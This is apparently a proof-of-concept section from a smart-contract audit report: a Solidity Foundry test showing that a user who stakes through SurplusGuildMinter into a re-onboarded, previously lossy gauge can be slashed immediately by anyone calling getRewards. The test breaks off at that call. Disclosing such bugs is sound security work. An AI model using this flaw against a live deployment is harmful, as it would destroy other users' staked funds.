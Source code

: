### Proof of Concept

The following test describes the main impact highlighted above, in which a user stakes into a previously lossy gauge and is immediately slashed:

Place the following test inside of `test/unit/loan/SurplusGuildMinter.t.sol`:

```solidity
    function testUserImmediatelySlashed() public {
        // initial state
        assertEq(guild.getGaugeWeight(term), 50e18);

        // add credit to surplus buffer
        credit.mint(address(this), 100e18);
        credit.approve(address(profitManager), 50e18);
        profitManager.donateToSurplusBuffer(50e18);

        // term incurs loss
        profitManager.notifyPnL(term, -50e18);
        assertEq(guild.lastGaugeLoss(term), block.timestamp);

        // term offboarded
        guild.removeGauge(term);
        assertEq(guild.isGauge(term), false);

        // time passes and term is re-onboarded
        vm.roll(block.number + 100);
        vm.warp(block.timestamp + (100 * 13));
        guild.addGauge(1, term);
        assertEq(guild.isGauge(term), true);

        // user stakes into term directly
        address user = address(0x01010101);
        guild.mint(user, 10e18);
        vm.startPrank(user);
        guild.incrementGauge(term, 10e18);
        vm.stopPrank();

        // user can un-stake from term
        vm.startPrank(user);
        guild.decrementGauge(term, 10e18);
        vm.stopPrank();

        // user stakes into term via sgm
        credit.mint(user, 10e18);
        vm.startPrank(user);
        credit.approve(address(sgm), 10e18);
        sgm.stake(term, 10e18);
        vm.stopPrank();
        
        // check after-stake state
        assertEq(credit.balanceOf(user), 0);
        assertEq(profitManager.termSurplusBuffer(term), 10e18);
        assertEq(guild.getGaugeWeight(term), 70e18);
        SurplusGuildMinter.UserStake memory userStake = sgm.getUserStake(user, term);
        assertEq(uint256(userStake.stakeTime), block.timestamp);
        assertEq(userStake.lastGaugeLoss, guild.lastGaugeLoss(term));
        assertEq(userStake.profitIndex, 0);
        assertEq(userStake.credit, 10e18);
        assertEq(userStake.guild, 20e18);

        // malicious actor is aware of bug and slashes the user's stake immediately, despite no loss occurring in the gauge
        sgm.getRewards(user, term);
```